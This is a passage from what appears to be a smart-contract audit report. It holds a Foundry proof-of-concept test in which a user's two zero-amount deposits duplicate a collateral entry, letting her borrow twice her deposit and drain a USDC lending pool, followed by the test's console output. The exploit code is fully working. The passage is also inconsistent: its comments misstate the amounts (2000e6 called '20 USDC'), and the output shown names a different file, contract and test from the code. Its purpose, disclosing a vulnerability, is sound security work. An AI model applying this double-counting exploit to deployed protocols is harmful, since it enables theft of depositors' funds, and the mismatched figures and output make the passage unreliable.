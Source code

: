 2. Second File (includes the poc): test/pocs/forktest.t.sol

```js
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity ^0.8.19;

    import "./base_test.sol";
    import "@forge-std/console.sol";

    contract Pocs_1 is baseTest {
        function test_poc_1() public {
            vm.startPrank(LISTING_ROLE);
            loanManager.updateLoanPoolCaps(2, hubPoolUsdc.getPoolId(), 100000e6, 10000e6);
            hubPoolUsdc.updateCapsData(HubPoolState.CapsData(type(uint64).max, type(uint64).max, 1e18));
            vm.stopPrank();

            // @audit bob deposits 2000 usdc
            uint256 bobDeposit = 2000e6; // 20 USDC
            _approveUsdc(bob, address(spokeUsdc), bobDeposit);
            _deposit(bob, bobAccountId, bobLoanIds[0], bobDeposit, spokeUsdc);
            // @audit alice deposit 0 amount two times to push the poolId to it's collateral array twice :
            uint256 aliceBalanceBefore = IERC20(USDC_TOKEN).balanceOf(alice);
            _deposit(alice, aliceAccountId, aliceLoanIds[0], 0, spokeUsdc);
            _deposit(alice, aliceAccountId, aliceLoanIds[0], 0, spokeUsdc);
            // @audit alice deposit 1000e6 usdc to the same pool :
            uint256 largeUsdcDeposit = 1000e6; // 10 USDC
            _approveUsdc(alice, address(spokeUsdc), largeUsdcDeposit);
            _deposit(alice, aliceAccountId, aliceLoanIds[0], largeUsdcDeposit, spokeUsdc);
            // @audit-issue : alice can borrow way more then his collateral (basically drain all liquidity from the pool)
            _borrowVariable(alice, aliceAccountId, aliceLoanIds[0], hubPoolUsdc.getPoolId(), 2000e6);
            uint256 aliceBalanceAfter = IERC20(USDC_TOKEN).balanceOf(alice);
            uint256 attackProfit = aliceBalanceAfter - aliceBalanceBefore;
            console.log("ALICE COULD DRAIN :", attackProfit / 1e6, "USDC");
        }
    }
```

- this is the result if we execute the test with :
  > forge test --mt test_poc_1 -vvv

```sh
Ran 1 test for test/pocs/manipulateStableRatePoC.sol:Pocss
[PASS] test_poc() (gas: 1863057)
Logs:
  ALICE COULD DRAIN : 1000 USDC

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.04s (7.54ms CPU time)
```